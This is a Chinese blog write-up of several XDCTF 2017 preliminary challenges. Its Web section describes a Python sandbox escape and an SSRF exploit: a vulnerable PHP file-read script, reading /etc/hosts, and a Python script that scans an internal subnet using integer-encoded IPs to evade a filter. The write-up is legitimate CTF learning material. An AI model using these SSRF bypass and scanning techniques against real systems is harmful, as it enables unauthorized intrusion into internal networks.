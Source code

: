 ```yaml
---
layout: 
title: XDCTF 初赛部分题目WriteUp
date: 2017-10-04 13:27:27
tags:
	- CTF
	- XDCTF
	- Writeup
---
```


国庆假期水了下XDCTF的初赛，最后拿了个33名，没进决赛，不过学了不少东西，记一下
<!-- more -->
## Crypto

### 0x01 基础为王


从给的数据包中，可以找到两个分别名为flag-1 flag-2的图片，提取出来以后，使用Stegosolve进行一次XOR操作即可获得flag

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Crypto-1.png)


### 0x02 基础之Base64

给了长长的一大串base64，解密之后是一个C程序脚本，运行出helloword..

肯定不对啊，谷歌找资料，知道为base64隐写，网上有脚本可以直接进行解密

脚本如下

	# -*- coding: cp936 -*-
	b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
	with open('data.txt', 'rb') as f:
    	bin_str = ''
    	for line in f.readlines():
    	    stegb64 = ''.join(line.split())
    	    rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
      		offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        	equalnum = stegb64.count('=') #no equalnum no offset
        	if equalnum:
            	bin_str += bin(offset)[2:].zfill(equalnum * 2)
        	print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
直接运行即可



## Web

Web就做出来一个题，比较菜/(ㄒoㄒ)/~~

### 0x01 Web2

题目忘记截图了。

python用来执行系统命令的四种方法都行不通，故意引用一个不存在的模块会在错误报告中，找到绝对路径

	File "/codes/6707603a4141a84912289293db7dcc1f/a.py"

而且glob模块并没有被禁用，可以借助它来列目录

	
	import glob
	for filename in glob.glob(r''):
		print filename

从绝对路径开始，往下找，flag就在codes目录中，直接open读取输出即可获得flag


### 0x02 Web3
这个题目我没做出来，在此放上大表哥的flag

flag页面的URL为`http://web.ctf.xidian.edu.cn/web3/?file=flag.html`，推测为文件读取。

将flag.html改为index.php获得源码

	php
	<?php
	/*//设置open_basedir
	ini_set("open_basedir", "/home/shawn/www/index/");
	 */
	
	if (isset($_GET['file'])) {
		$file = trim($_GET['file']);
	} else {
		$file = "main.html";
	}
	
	// disallow ip
	if (preg_match('/^(http:\/\/)+([^\/]+)/i', $file, $domain)) {
		$domain = $domain[2];
		if (stripos($domain, ".") !== false) {
			die("Hacker");
		}
	}

	if( 	@file_get_contents($file)!=''){
	echo file_get_contents($file);
	
	}else{
  	


在这里卡了很久，最后推测是ssrf，通过读取`/etc/hosts`文件得知内网ip为`172.18.0.3`。

由于正则表达式过滤了形如`127.0.0.1`的ip，使用整形ip来代替，扫描内网。

	python
	#-*- coding:utf-8 -*-
	import socket
	import requests
	import urllib
	
	for i in range(1, 256):
		ip = '172.18.0.%d' % i
		int_ip = int(socket.inet_aton(ip).encode('hex'), 16)
		#print int_ip
		r = requests.get('http://web.ctf.xidian.edu.cn/web3/?file='+urllib.quote_plus('http://%d' % int_ip))
		if 'flag' in r.text:
			print ip, int_ip
			print r.text
			break


172.18.0.2有flag


	172.18.0.2 2886860802
	<html>
	<head><title>403 Forbidden</title></head>
	<body bgcolor="white">
	<center><h1>403 Forbidden</h1></center>
	<hr><center>nginx/1.13.5</center>
	</body>
	</html>
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- a padding to disable MSIE and Chrome friendly error page -->
	<!-- do u see me? ha flag{0e34c0321b2b3048d399b41a8ffda584} -->
## Misc

### 0x01 邮箱

根据提示

小黑发现一个有趣的博客，于是注册了一个账号，你能找到他的邮箱地址吗？
注意：直接递交邮箱地址即可。

打开数据包后，查找含有 register 的数据流

	http contains "register"

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-1.png)

分别进行追踪流操作，经过尝试可以获得flag

![](http://osn75zd5c.bkt.clouddn.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-2.png)